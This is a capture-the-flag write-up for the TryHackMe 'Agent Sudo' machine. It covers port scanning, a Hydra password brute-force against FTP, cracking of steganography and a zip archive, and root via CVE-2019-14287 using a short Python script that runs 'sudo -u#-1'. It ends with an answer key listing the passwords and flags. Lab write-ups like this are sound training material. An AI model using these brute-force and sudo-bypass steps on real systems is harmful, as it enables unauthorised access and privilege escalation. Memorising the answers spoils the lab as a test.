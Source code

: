```yaml
---
title: Agent Sudo
date: 2022-09-10 09:45:47 +07:00
modified: 2022-09-10 09:45:47 +07:00
tags: [CVE, Agent Sudo, TryHackMe, Writeup, CTF]
description: You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
image: https://photos.squarezero.dev/file/abir-images/AgentSudo/logo.png
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/thmbanner.png)

<img src="https://photos.squarezero.dev/file/abir-images/AgentSudo/logo.png" style="margin-left: 20px; zoom: 30%;" align=left />    	<font size="10">Agent Sudo</font>

29<sup>th</sup> OCtober 2019

​		Machine Author(s): [DesKel](https://tryhackme.com/p/DesKel)

### Description: 
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Recon


I start port scanning with [Nmap]() to find existing ports and services.

`sudo nmap -sC -sV -oA nmap/agentsudo 10.10.133.149`


|Ports|Service
|21|FTP (vsftpd 3.0.3)
|22|SSH (OpenSSH 7.6p1
|80|HTTP (Apache httpd 2.4.29

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/1.png)

I checked website and wants me to change my user-agent

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/02.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2.png)

## Brute-Force

“25 employees” suggesting letters in the alphabet. So I have decided to brute force using all the letters.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_1.png)
![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_2.png)

After changing my user name to “C” I got the following message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_3.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/3.png)

Next, I decided to check out the FTP server. As I don’t have a password, I tried to brute-force using [Hydra]() and with [rockyou.txt]()

`hydra -t 3 -l chris -P /home/sz/Documents/rockyou.txt 10.10.133.149 ftp`

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/4.png)

I got the password to log in FTP.

After logging in I found two .png and one .txt file. After downloading them I checked out the message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5_1.png)

“stored in the fake picture” suggesting pictures are [Steganography]().

I brute-forced with [Stegcracker]() and found the following text

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/6.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/7.png)

Not very useful. For the other picture, I used [binwalk]() to extract the files inside one of the images.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/8.png)

I found a zip file and brute-force that with [John]()

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/9.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/10.png)

Now I have the user and password to ssh.

After logging in ssh I found the user flag

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/11.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/12.png)

## OSINT

Inside I found an image 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13_1.png)

After a simple google reverse image search, I found this article.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13.png)

## Privilege Escalation

After doing some basic enumeration I found a possible shell escaping way. 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/14.png)

After doing some research I have found the following CVE.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/15.png)

I made a python file with the following code. 

```python
#!/usr/bin/python3
import os
#Get current username
username = input("Enter current username :")
#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")
binary_file = open("binary")
binary= binary_file.read()
#execute sudo exploit
print("Lets hope it works")
os.system("sudo -u#-1 "+ binary)
```

After executing the file I got root!

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/16.png)


 <a href='https://ko-fi.com/N4N64TH56' target='_blank'><img height='36' style='border:0px;height:36px;' src='https://cdn.ko-fi.com/cdn/kofi3.png?v=3' border='0' alt='Buy Me a Coffee at ko-fi.com' /></a>

***Q1. How many open ports?***

***A. 3***

***Q2. How you redirect yourself to a secret page?***

***A. user-agent***

***Q3. What is the agent name?***

***A. chris***

***Q4. FTP password***

***A. crystal***

***Q5. Zip file password***

***A. alien***

***Q6. steg password***

***A. Area51***

***Q7. Who is the other agent (in full name)?***

***A. james***

***Q8. SSH password***

***A. hackerrules!***

***Q9. What is the user flag?***

***A. b03d975e8c92a7c04146cfa7a5a313c7***

***Q10. What is the incident of the photo called?***

***A. Roswell alien autopsy***

***Q11. CVE number for the escalation***

***A. CVE-2019-14287***

***Q12. What is the root flag?***

***A. b53a02f55b57d4439e3341834d70c062***

***Q13. (Bonus) Who is Agent R?***

***A. DesKel***
